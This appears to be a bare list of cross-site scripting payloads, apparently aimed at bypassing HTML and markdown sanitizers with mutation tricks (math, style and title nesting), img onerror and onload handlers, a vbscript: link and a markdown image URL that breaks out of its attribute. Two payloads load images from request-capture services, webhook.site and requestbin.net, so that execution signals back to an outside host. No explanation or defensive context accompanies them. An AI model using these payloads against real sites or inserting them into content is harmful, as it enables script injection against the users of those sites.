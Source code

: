 ">a<math>s<xss style=display:block>t<style>X<a title=""</style>a<img src="http://requestbin.net/r/154l6z91/123" onerror=alert()>">s.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src='https://webhook.site/830d2611-45c3-4448-9b8d-c80b74811960' onerror=alert()>">.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src=x onerror=alert()>">.<a>.

<img onload='alert()'>

var xx = <math style=""><img onload=xxx>


![vbscript:alert()](vbscript:alert())


![Uh oh...](https://www.example.com/image.png"onload="alert('XSS'))


